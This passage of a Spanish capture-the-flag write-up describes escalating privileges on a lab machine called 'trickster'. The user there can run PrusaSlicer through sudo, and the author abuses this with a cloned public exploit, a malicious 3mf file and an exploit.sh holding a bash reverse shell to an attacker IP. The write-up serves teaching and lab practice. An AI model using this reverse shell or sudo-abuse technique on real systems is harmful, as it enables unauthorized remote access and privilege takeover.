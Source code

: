 Al verificar si el usuario disponía de algún permiso de **sudoers**. Nos encontramos que puede ejcutar como `sudo` el binario `/opt/PrusaSlicer/prusaslicer`.

{% hint style="info" %}
PrusaSlicer es el software de corte para impresoras 3D de Prusa . Básicamente, "corta" un objeto 3D en capas finas y un conjunto de instrucciones que la impresora 3D puede seguir para imprimir el modelo.
{% endhint %}

```bash
james@trickster:~$ su adam
Password: 
adam@trickster:/home/james$ sudo -l
Matching Defaults entries for adam on trickster:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User adam may run the following commands on trickster:
    (ALL) NOPASSWD: /opt/PrusaSlicer/prusaslicer
```

Revisando maneras de aprovecharnos de este permiso de **sudoers**, nos encontramos con el siguiente repositorio el cual descargaremos en nuestro equipo local.

{% embed url="https://github.com/suce0155/prusaslicer_exploit" %}

```bash
❯ git clone https://github.com/suce0155/prusaslicer_exploit; cd prusaslicer_exploit
Clonando en 'prusaslicer_exploit'...
remote: Enumerating objects: 25, done.
remote: Counting objects: 100% (25/25), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 25 (delta 3), reused 0 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (25/25), 45.69 KiB | 1.34 MiB/s, listo.
Resolviendo deltas: 100% (3/3), listo.
```

Editaremos el archivo `exploit.sh` para establecer nuestra dirección IP de atacante y el puerto desde donde estaremos en escucha. Levantaremos un servidor web para transferir estos archivos al equipo víctima.

```bash
❯ cat exploit.sh
/bin/bash -i >& /dev/tcp/10.10.16.5/444 0>&1

❯ ls -l
.rw-rw-r-- kali kali  38 KB Sat Jan 25 01:25:28 2025  evil.3mf
.rw-rw-r-- kali kali  45 B  Sat Jan 25 01:26:02 2025  exploit.sh
.rw-rw-r-- kali kali 369 B  Sat Jan 25 01:25:28 2025  README.md

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo víctima, nos descargaremos los archivos `exploit.sh` y `evil.3mf`.
